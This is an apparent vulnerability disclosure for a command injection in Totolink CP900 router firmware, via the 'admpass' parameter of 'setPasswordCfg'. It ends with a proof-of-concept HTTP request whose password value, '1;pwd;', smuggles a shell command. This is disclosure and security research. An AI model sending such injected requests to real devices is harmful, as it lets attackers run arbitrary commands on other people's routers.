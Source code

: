 ## Totolink CP900 command injection

### Overview

* Vendor: TOTOLINK

* Product: Totolink CP900
* Version: V6.3c.1144_B20190715

* Manufacturer's address：https://www.totolink.net/
* Firmware download address ：https://totolink.id/data/upload/20190823/72f2e599854470f5752826473d74b7e0.zip

### Vulnerability details

Totolink CP900 V6.3c.1144_B20190715 was found to contain a command injection vulnerability in the `setPasswordCfg` function via the `admpass` parameter. This vulnerability allows attackers to execute arbitrary commands via a crafted request.

![image](./img/1.png)

#### PoC

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.254
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: application/json, text/javascript, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 135
Origin: http://192.168.0.254
Connection: close
Referer: http://192.168.0.254
Cookie: SESSION_ID=2:1801026000:2

{
    "topicurl": "setting/setPasswordCfg",
    "admuser": "test"
    "admpass": "1;pwd;"
}
```

